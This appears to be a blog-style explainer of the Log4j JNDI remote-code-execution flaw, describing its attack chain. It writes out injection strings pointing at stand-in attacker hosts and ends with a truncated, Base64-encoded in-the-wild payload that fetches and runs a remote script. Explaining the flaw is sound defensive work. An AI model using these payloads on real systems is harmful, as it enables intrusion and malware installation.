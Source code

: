 To give a hint in a few words, Log4j supports insecure JNDI lookups, which might allow an unauthenticated, remote attacker to execute arbitrary code with the privileges of the vulnerable Java application utilizing Log4j through remote services such as LDAP, RMI, and DNS. But, the question remains: HOW?


## How can the Log4j vulnerability be exploited?  

Let me use a nice and simple example from [SecureWorks](https://www.secureworks.com/blog/log4j-vulnerability-faqs):

1. A threat actor might send a specially crafted string containing a malicious payload to a CVE-2021–44228-vulnerable machine. Any field that the system logs, such as a User Agent string, referrer, username or email address, device name, or freetext input, might contain this string.

2. The string, which might be something like ${jndi:ldap://attacker.com/a} — where attacker.com is a threat actor-controlled LDAP server — is passed to Log4j for logging.

3.The Log4j vulnerability is triggered by this payload and the vulnerable system uses JNDI to query the threat actor-controlled LDAP server.

4. The threat actor-controlled LDAP server responds with information that includes a remote Java class file (e.g., hXXp://second-stage.attacker.com/Exploit.class).

5. This Java class is deserialized (downloaded) and executed.

This graphical view by the Swiss [CERT](https://www.ncsc.admin.ch/govcert) illustrates this attack chain quite well:

<figure>
  <img src="https://i.imgur.com/hzgeqoI.png" alt="Trulli" style="width:100%">
  <figcaption><center>Graphical view of Log4j JNDI attack by the CERT
</center></figcaption>
</figure>

Let me provide an example for those who are still unsure about how an attacker may gain access to your system and transmit a specially constructed string to your logger. Assume you have a search page where users can enter search parameters into an input form, which your app will accept and search — easy peasy. You’re taking the search criteria and logging them in your app. Hmm… What could go wrong here?

Imagine what would happen if someone put in the following: ${jndi:ldap://malicious-site/maliciousobject}. What will this code do? The code will send a JNDI request to the domain specified in the parameter. And I’m sure you’re seeing the issue in a new light now. Your JVM now contains a malicious object. That sounds insane but it isn’t called a zero-day vulnerability for nothing, right?

You would get complete control over everything if you were really able to create a Java object of your code in the JVM of a major website. You would be able to run whatever code you want, whenever you want. This is referred to as RCE (Remote Code Execution). According to SecureWorks, in fact, that was exactly what most attackers were attempting to do by passing Base64-encoded commands to do things like download cryptocurrency miners. For example, the following Base64:

```
{jndi:ldap://<redacted_IP>:1389/Basic/Command/Base64/d2dldCBodHRwOi8vNjIuMjEwLjEzMC4yNTAvbGguc2g7Y2htb2QgK3ggbGguc2g7Li9s
```
